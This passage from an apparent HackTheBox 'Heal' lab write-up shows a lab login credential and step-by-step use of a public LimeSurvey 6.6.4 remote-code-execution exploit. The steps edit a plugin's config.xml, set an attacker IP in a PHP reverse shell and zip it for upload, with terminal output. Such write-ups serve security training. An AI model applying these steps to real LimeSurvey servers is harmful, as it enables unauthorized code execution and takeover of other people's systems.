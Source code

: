 
Login with credential: **ralph@heal.htb/147258369**

## Exploitation

Because web server running `LimeSurvey Community Edition Version 6.6.4`, so I found exploit in ineternet [here](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE).

- Clone github.
- Edit `config.xml` and add line `<version>6.0</version>`.
- Edit IP and Port of the attacking machine in the `php-rev.php` file.
- Delete origibal `Y1LD1R1M.zip` file.
- Zip file `config.xml` and `php-rev.php` into `Y1LD1R1M.zip`.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Heal]
└─$ git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
Cloning into 'Limesurvey-RCE'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 24 (delta 2), reused 0 (delta 0), pack-reused 18 (from 1)
Receiving objects: 100% (24/24), 10.00 KiB | 2.50 MiB/s, done.
Resolving deltas: 100% (5/5), done.


┌──(trit㉿chimp)-[~/HackTheBox/Heal]
└─$ cd Limesurvey-RCE

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ ls
README.md  Y1LD1R1M.zip  config.xml  exploit.py  php-rev.php

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ nano config.xml

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>

┌──(trit㉿chimp)-[~/HackTheBox/Heal/Limesurvey-RCE]
└─$ nano php-rev.php
~~~